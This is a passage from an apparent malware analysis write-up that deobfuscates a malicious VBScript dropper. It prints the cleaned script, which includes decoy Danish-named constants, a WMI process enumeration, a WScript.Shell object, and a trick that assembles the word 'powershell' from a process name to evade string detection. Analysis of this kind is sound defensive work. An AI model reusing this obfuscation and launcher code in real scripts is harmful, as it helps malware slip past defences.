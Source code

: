 For one, there is words here that are Danish, so I can't help but read them when trying to deobfuscate. 
Other than that, comments in vbs starts with a single qoute `'` or `rem` - so let's remove all lines starting with a comment and empty lines.

{% highlight powershell %}
Get-Content -Path .\present.vbs | sls -NotMatch "'" | sls -NotMatch "^$"

Nonphilosophicalgloriat = LenB("Ritualizing")
Set objWMIService = GetObject("winmgmts:{impersonationLevel=impersonate}!\\.\root\cimv2")
Private Const Overcrammi = &HFFFFB15F
Private Const Rdkridtet = &HFFFFB96E
Private Const Delarbejdets = -19974
Private Const Sammentraengte = "Atokal Becram Latchkeys"
Private Const Tlleapparaternes = "Tropikfronters Udludningen Uigenkaldeliges122 Gunsels"
Private Const Dispergeringsmidlers = "Homostyled Tiltuskede"
Private Const Indlejrende = -36431
Private Const Iteratively = "Rhyptical Stetoskopers"
Private Const Spadillers = "Decursive consubstantialism"
Private Const Gemenheden136 = "Afstumpningens Elusiveness Encirclements"
Private Const kromosomernes = "fells Fastballs Laron"
Private Const Insures = "Forsvarlige ydernes Approachens"
Private Const Medianens = -11670
Private Const Udviklingspsykologerne = &HDCEC
Private Const Afrustet = "Ceded Prajene Linkages"
Private Const Hyperalgebra228 = &HFFFFB5B0
Private Const Overrapturize = -45841
Private Const Sandormene = 21903
Private Const Ravenhood = "Outwrites Negligibly"
Private Const Zara = -40317
Private Const Landsforeningers = &HFFFF612F
Private Const Spulings = 53917
Private Const Forfjerdinger = &HFFFF1B6F
Private Const Matus = -64522
Private Const omskrendes = &HFFFF2EBE
Private Const Udpolstringerne70 = &HFFFF4034
Private Const Grandmother241 = -15586
Private Const Studeopdrtters = -10206
Private Const Elisas = "Redeployment Leglet"
Private Const Panicking = "Seriously Noisiest"
Private Const Rdhud = 64782
Private Const Rebelly = "Absenteringers Paleodendrologic Stvfrakkernes Suspenderendes"
Private Const Davon = -62249
Private Const Korsfst = &HCEA8
Private Const Busstoppestederne = 52451
Private Const Undladtes = &HFFFFBCBF
Private Const Idiologism = -21819
Private Const Kokoromiko = &HFFFF0BF2
Private Const Skalken = &H8570
Private Const Stribningens = -8436
Private Const Synthesization = "Graags157 Helligtrekongers Lillefingrene"
Private Const Lydbaands = 63620
Private Const Omphalodia = -38461
Private Const Butyrousness = "Witting Blokhaandteringens"
Private Const chirogymnast = "Smsyning blackballed"
Set colProcess = objWMIService.ExecQuery ("Select * from Win32_Process")
Modulidae = "WScript." & "Shell"
Set Firklverne = CreateObject(Modulidae)
For Each objProcess in colProcess
    bb=instr(1,objProcess.Name,"s",vbTextCompare)
        if bb <> 0 then exit for
Next
Unrustling = mid(objProcess.Name,bb,1)
Aadselsbilles = "power" & Unrustling & "hell "